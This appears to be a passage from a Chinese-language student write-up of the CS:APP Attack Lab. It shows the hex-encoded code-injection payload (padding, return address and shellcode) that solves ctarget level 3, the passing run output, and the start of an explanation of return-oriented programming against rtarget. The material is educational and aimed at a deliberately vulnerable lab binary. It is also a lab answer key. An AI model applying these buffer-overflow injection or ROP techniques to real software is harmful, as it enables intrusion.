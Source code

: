 最后得到的输入如下所示：

```c{.line-numbers}
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 dc 61 55 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
48 31 c0 50 48 b8 35 39
62 39 39 37 66 61 50 48
89 e7 68 fa 18 40 00 c3
```

接下来将上述文本转换成的二进制位串作为 ctarget 程序的输入，得到的运行结果如下，成功调用 touch3 函数，并且将 cookie 作为参数传入最终打印出来。

```c{.line-numbers}
monica@xvm:~/csapp/csapplab/attacklab/target1$ ./hex2raw < ctarget03.txt > ctarget03-raw.txt 
monica@xvm:~/csapp/csapplab/attacklab/target1$ LD_PRELOAD=./printf.so ./ctarget < ctarget03-raw.txt -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 DC 61 55 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 31 C0 50 48 B8 35 39 62 39 39 37 66 61 50 48 89 E7 68 FA 18 40 00 C3 
```

## 四、PHASE4

### 1.ROP 介绍

在第二部分中，我们要攻击的是 rtarget，它的代码内容与第一部分基本相同，但是攻击它却比第一部分要难得多，主要是因为它采用了两种策略来对抗缓冲区溢出攻击：

- 栈随机化。这段程序分配的栈的位置在每次运行时都是随机的，这就使我们无法确定在哪里插入代码；
- 限制可执行代码区域。它限制栈上存放的代码是不可执行的；

在前面的攻击中，我们将恶意代码片段读取到 getbuf 函数栈帧中，并且获取其起始地址，执行 ret 指令时跳转到恶意代码片段继续执行。**但是当栈随机化后，getbuf 函数栈帧的起始地址发生了变化（每次运行时发生变化），也就无法再获取到栈帧中恶意代码片段的准确地址**。

此时，我们可以使用 ROP（return-oriented-programming）技术来进行攻击，**<font color="red">就是在已经存在的程序中找到特定的以 ret 结尾的指令序列为我们所用，称这样的代码段为 gadget</font>**，把要用到部分的地址压入栈中，每次 ret 后又会取出一个新的 gadget，于是这样就能形成一个程序链，实现我们的目的。如下所示：

<div align="center">